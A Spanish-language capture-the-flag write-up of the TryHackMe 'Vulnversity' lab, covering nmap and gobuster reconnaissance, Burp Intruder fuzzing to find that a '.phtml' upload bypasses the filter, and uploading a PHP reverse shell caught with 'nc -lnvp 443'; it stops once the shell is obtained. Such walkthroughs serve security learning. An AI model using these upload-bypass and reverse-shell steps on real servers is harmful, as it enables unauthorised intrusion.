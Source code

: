 ```yaml
---
title: Tryhackme - Vulnversity
author: nik0
date: 2020-11-14 14:10:00 +0800
categories: [Write up]
tags: [THM,Vulnversity]
---
```

![Vulnversity logo!](/assets/img/sample/vulnlogo.png)


## Introducción

En este write up veremos la máquina Vulnversity de Tryhackme, veremos temas cómo reconocimiento activo, ataques a aplicaciones web y escalación de privilegios explotando binarios.

## Reconocimiento

Primero haremos un escaneo con nmap para ello utilizamos el comando ```sudo nmap -sC -sV "ip"``` y el output que nos muestra es el siguiente:

```terminal
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-13 21:03 -03
Nmap scan report for 10.10.128.154
Host is up (0.27s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m19s, deviation: 2h53m12s, median: 19s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2020-11-13T19:04:45-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-14T00:04:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.43 seconds
```
Primero probé con el puerto 21, pero no habia ningún exploit para esa versión, luego intenté conectarme para ver si tenía acceso anónimo y nada, después seguí con ssh, y tampoco habían exploits disponibles para esa versión, continué con samba buscando recursos compartidos y estaba todo sin acceso con SMBMAP, luego termino con el puerto 3333 que es http y si pongo la ip de la máquina con el puerto me sale esto:

![1](/assets/img/sample/1.jpeg)

Indagando más a fondo en la página (mirando el codigo fuente etc) me di cuenta de que es solo frontend así que empecé a enumerar directorios con gobuster

## Localizando directorios con Gobuster

Con el comando ```gobuster dir -u http://10.10.128.154:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150``` enumeramos los directorios escondidos que puede tener la página web, OJO: no es recomendable aumentar los threads porque se podría hacer una denegación de servicio o te podría bloquear un firewall, en todo caso con la herramienta W4fw00f se puede saber si un sitio tiene firewall o no, finalmente este es el resultado de Gobuster:

```terminal
2020/11/13 21:43:55 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
===============================================================
```
El directorio ```/internal``` se ve interesante y si ponemos esto en la url del sitio nos lleva a esto:

![2](/assets/img/sample/2.png)

Encontramos una subida de archivos, donde podemos subir una shell y así posteriormente tener conexión reversa con el servidor, o un backdoor así que primero vamos a abrir burpsuite para saber que tipo de extension es admitida para poder subir nuestro backdoor

![3](/assets/img/sample/3.png)

ahí subimos el archivo test.jpg y lo interceptamos con burpsuite y ahora lo mandamos a intruder para posteriormente hacer fuzzing al objetivo

![4](/assets/img/sample/4.png)

Luego nos vamos a payloads y cargamos las posibles extensiones que permitirían la subida del archivo, pueden usar la lista que ustedes les guste más

![5](/assets/img/sample/5.png)

Y ejecutamos el ataque, el resultado es el siguiente:

![6](/assets/img/sample/6.png)

Podemos ver que aceptó la extensión .phtml porque cambió la longitud y si se renderiza via web igual se puede ver

Ya que encontramos el directorio donde se pueden subir archivos, tenemos que encontrar en donde se alojan para poder ejecutar nuestro backdoor

Así que utilizamos nuevamente Gobuster para enumerar directorios en el mismo de /internal

El comando a utilizar sería ```gobuster dir -u http://10.10.6.52:3333/internal -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100```

Output:
```terminal
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.6.52:3333/internal
[+] Threads:        100
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/13 22:44:15 Starting gobuster
===============================================================
/uploads (Status: 301)
/css (Status: 301)
```
Podemos ver que hay un subdirectorio llamado /uploads y se ve así:

![7](/assets/img/sample/7.png)

Ahora procedemos a subir nuestra shell

## Comprometiendo el servidor web

usamos el comando ```cp /usr/share/webshells/php/php-reverse-shell.php shell.phtml``` para mover nuestra shell y poner la extensión .phtml (OJO: hay que editar la shell y cambiar la ip y el puerto!)

luego la subimos en /internal

ponemos a la escucha netcat con el comando ```nc -lnvp TUPUERTO``` en mi caso era el 443 así que era ```nc -lnvp 443```

lo ejecutamos en /uploads

si todo salió bien, debería aparece algo así en la terminal:

![8](/assets/img/sample/8.png)

ponemos el comando ```uname -a``` para imprimir información sobre el SO

Para mayor comodidad en la terminal se puede hacer una shell TTY interactiva (Buscar en Google)









